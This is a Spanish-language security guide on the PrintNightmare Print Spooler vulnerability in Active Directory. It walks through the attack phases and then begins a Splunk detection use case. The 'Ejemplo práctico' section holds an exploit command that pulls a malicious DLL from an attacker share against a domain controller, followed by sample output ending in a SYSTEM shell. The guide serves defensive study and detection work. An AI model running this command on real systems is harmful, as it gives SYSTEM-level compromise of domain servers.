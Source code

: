 # 🛑 PrintNightmare en Active Directory

---

## 📝 ¿Qué es PrintNightmare?

| Concepto      | Descripción                                                                                                 |
|---------------|------------------------------------------------------------------------------------------------------------|
| **Definición**| PrintNightmare es un conjunto de vulnerabilidades críticas en el servicio Print Spooler de Windows que permite ejecución remota de código y/o escalada de privilegios. |
| **Requisito** | El atacante debe tener acceso a la red y el Print Spooler debe estar activo en el sistema objetivo (servidores, estaciones, DCs).                |

---

## 🛠️ ¿Cómo funciona el ataque?

| Fase             | Acción                                                                                         |
|------------------|------------------------------------------------------------------------------------------------|
| **Conexión**     | El atacante se conecta al servicio Print Spooler vía RPC/SMB, normalmente usando autenticación de dominio.|
| **Carga**        | Carga un controlador de impresora (DLL) malicioso, abusando de la función AddPrinterDriverEx.  |
| **Ejecución**    | El controlador malicioso se ejecuta como SYSTEM, permitiendo RCE o escalada de privilegios.    |
| **Persistencia** | Puede usarse para mantener acceso privilegiado si no se parchea o desactiva el servicio.        |

---

## 💻 Ejemplo práctico

```bash
# Uso de herramienta pública para explotar PrintNightmare:
python3 CVE-2021-34527.py <DC_IP> <'DOMAIN/user:pass'> '\\attacker\evil.dll'
```

```
[*] Connecting to the target Print Spooler service...
[*] Uploading malicious DLL via AddPrinterDriverEx...
[*] Triggering DLL execution as SYSTEM...
[+] SYSTEM shell obtained!
```

---

## 📋 Caso de Uso Completo Splunk

### 🎯 Contexto empresarial y justificación

**Problema de negocio:**
- PrintNightmare (CVE-2021-34527) permite ejecución remota de código como SYSTEM en cualquier servidor con Print Spooler habilitado, incluyendo Domain Controllers
- Explotación exitosa resulta en compromiso inmediato del servidor objetivo con privilegios máximos
- 90% de organizaciones tienen Print Spooler habilitado en servidores críticos por defecto
- Costo promedio de incident RCE en servidor crítico: $150,000 USD
